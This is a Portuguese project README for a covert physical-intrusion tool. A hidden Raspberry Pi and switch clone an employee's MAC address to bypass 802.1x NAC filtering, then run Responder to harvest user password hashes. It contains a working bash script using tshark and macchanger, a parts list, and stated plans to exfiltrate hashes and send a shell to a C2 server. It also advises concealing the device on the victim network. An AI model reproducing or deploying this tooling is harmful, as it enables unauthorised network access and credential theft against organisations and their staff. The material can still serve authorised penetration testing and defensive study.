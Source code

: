 # Projeto

O Objetivo desse projeto visa realizar de forma "automatizada" e "stealth" o bypass de NAC 802.1x PNAC (Filtro de MAC) e iniciar quaisquer scripts/exploits/ferramentas ao ingressar dentro da rede alvo, utilizando ferramentas como RaspberryPI e um Switch de rede, ambos de fácil acesso para compra.

No cenário proposto, um atacante utilizará a ferramenta + scripts contruidos para realizar o ataque de forma automatizada. Ao obter acesso local aos cabos de rede referente a rede alvo, basta plugar um computador de um colaborador no switch para clonar seu MAC, e depois o mesmo ingresará na rede, assim rodando as automações. Em sequência é recomendável que o device seja escondido equanto estiver conectado ao cabo de rede, para que permaneça na rede realizando os ataques.

Para o caso atual, a ferramenta a ser ativada sera o "Responder", o qual terá função de coletar Hashes de usuários na rede e exfiltra-los para um servidor externo (C2).

# Equipamentos

## V1 - RaspberryPi3
* Raspberry PI (recomendável PI3 1GB RAM)
* 1 Cabo microUSB/USB-C (Depende do RaspberryPI)
* Tela Touch RaspberryPI (Recomendável/Não Obrigatório)
* 1 PowerBank (Pequeno)
* Teclado Bluethooth (Recomendável/Não Obrigatório)

## V2 - Pwnagotchi
https://pwnagotchi.ai/
* UPS Lite V1.2 Poder HAT Board (Bateria): https://pt.aliexpress.com/item/1005006685459725.html?spm=a2g0o.order_list.order_list_main.41.a4c2caa4EFlwFG&gatewayAdapt=glo2bra
* RaspberryPI ZeroW Dev Board(Solded): https://pt.aliexpress.com/item/1005005171008740.html?spm=a2g0o.order_list.order_list_main.11.a4c2caa4EFlwFG&gatewayAdapt=glo2bra
* RaspberryPI ZeroW Ethernet HUB, HUB USB... (Inputs): https://pt.aliexpress.com/item/4000022488083.html?spm=a2g0o.order_list.order_list_main.5.a4c2caa4EFlwFG&gatewayAdapt=glo2bra
* E-Ink Display HAT (Screen): https://pt.aliexpress.com/item/4000477030075.html?spm=a2g0o.order_list.order_list_main.29.a4c2caa4EFlwFG&gatewayAdapt=glo2bra
* Adaptador Wi-FI - USB (SSH): https://pt.aliexpress.com/item/1005006040988974.html?spm=a2g0o.order_list.order_list_main.23.a4c2caa4EFlwFG&gatewayAdapt=glo2bra

## Geral
* Switch de rede
* Conversor de energia do Switch para USB
* 2 Cabos de Rede RJ45 (Pequenos/Retrateis) 1metro
* Adaptador RJ45-USB
* 
# Etapas:

## Setup Raspberry
- [ ] kali ISO: https://www.kali.org/docs/arm/raspberry-pi-3/
- [ ] kali LCD Screen: https://github.com/lcdwiki/LCD-show-kali
- [ ] Responder as a Service: https://github.com/eep0x10/runAs.service/tree/main
- [ ] Scripts:


start_resp.sh
```
# Reset MAC Address Random
#sudo ifconfig eth1 hw ether $(ethtool -P eth1 | awk '{print $3}') 1>&-

while true;do
echo "[+] Capturando MAC Address, aguarde 10 segundos..."

echo "" > /tmp/captured_mac.txt

sudo tshark -i eth1 -Y "_ws.col.protocol matches \"IGMPv3\"" -T fields -e eth.src -a duration:10 2>&- | sort -u > /tmp/captured_mac.txt
echo "64:1c:67:e6:d8:a0" > /tmp/captured_mac.txt #HARCODED
# Caminho do arquivo de onde ler o valor
arquivo="/tmp/captured_mac.txt"
valor=$(cat "$arquivo" | tr -d '[:space:]')
# Executa o comando macchanger com o valor lido do arquivo
sudo macchanger -m "$valor" eth1 2>&- # Substitua "eth1" pela interface de rede desejada

cd /usr/share/responder
sudo python3 automation.py
done
```

# Next Steps
- [ ] Enviar uma shell para o C2, a fim de ter pesistência e controle remoto do dispositivo
- [ ] Exfiltrar hashes para o C2
- [ ] Quebrar os hashes de forma automatizada
- [ ] Notificar o atacante ao realizar uma quebra de hashe
- [ ] Enumerar permissões do hashe obtido*
